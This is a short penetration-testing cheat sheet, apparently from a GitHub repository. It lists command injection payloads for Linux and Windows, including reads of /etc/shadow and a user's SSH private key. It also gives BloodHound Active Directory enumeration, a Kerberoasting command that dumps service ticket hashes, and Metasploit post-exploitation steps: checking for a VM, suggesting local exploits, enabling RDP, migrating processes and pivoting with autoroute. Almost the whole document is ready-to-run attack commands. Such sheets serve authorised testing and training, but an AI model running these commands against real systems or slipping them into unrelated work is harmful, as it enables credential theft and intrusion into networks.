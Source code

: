 
## COMMAND INJECTION PAYLOADS
### Linux
```bash
whoami
id
ifconfig
ip addr
uname -a
ps -ef
cat /etc/passwd
cat /etc/shadow
cat /home/USERNAME/.ssh/id_rsa
```
### Windows
``` shell
whoami
ver
ipconfig
tasklist
netstat -an
```

## ACTIVE DIRECTORY AD
### BLOODHOUND
> Always download Newest Version of BloodHound.py and Bloodhound
```bash
python3 bloodhound.py -u [USER] -p [PASSWORD] -d [DOMAIN] -ns [NAMESERVER IP] -c All
sudo neoj4 console
./BloodHound
```
> afterwards import Data collected by BloodHound.py

### Kerberoast
> find kerberostable accounts with bloodhound
```
sudo ntpdate [IP TARGET]
impacket-GetUserSPNs [DOMAIN]/[USER]:[PASSWORD] -outputfile kerbroast.hashes
```

## POST EXPLOITATION WINDOWS
```powershell
Get-WmiObject -Class win32_OperatingSystem (Power Shell)
run post/windows/gather/checkvm (Metasploit) - check if vm
run post/multi/recon/local_exploit_suggester (Metasploit)
run post/windows/manage/enable_rdp (Metasploit)
ipconfig
try migrate spoolsv.exe
getuid
sysinfo
getprivs
run autoroute -s [SUBNET IP] -n 255.255.255.0
```
